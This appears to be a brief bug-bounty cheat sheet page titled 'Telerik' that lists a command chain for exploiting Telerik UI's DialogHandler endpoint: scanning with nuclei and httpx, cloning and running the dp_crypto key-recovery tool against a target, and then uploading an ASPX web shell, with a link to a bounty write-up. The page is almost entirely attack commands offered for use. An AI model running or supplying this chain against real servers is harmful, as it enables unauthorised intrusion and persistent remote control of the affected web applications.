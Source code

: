 # Telerik

```
> nuclei -t /root/nuclei-templates/technologies/telerik/
> httpx -path /Telerik.Web.UI.DialogHandler.aspx
> git clone https://github.com/bao7uo/dp_crypto && cd dp_crypto
> python3 dp_crypto.py k -u https://test.example.com/Telerik.Web.UI.DialogHandler.aspx
> upload aspx shell [https://p4n7h3rx.medium.com/how-i-got-bounty-within-5-mins-f1448f6db9b5]
```
![telerik](https://raw.githubusercontent.com/reewardius/Telerik/main/telerik.webp)
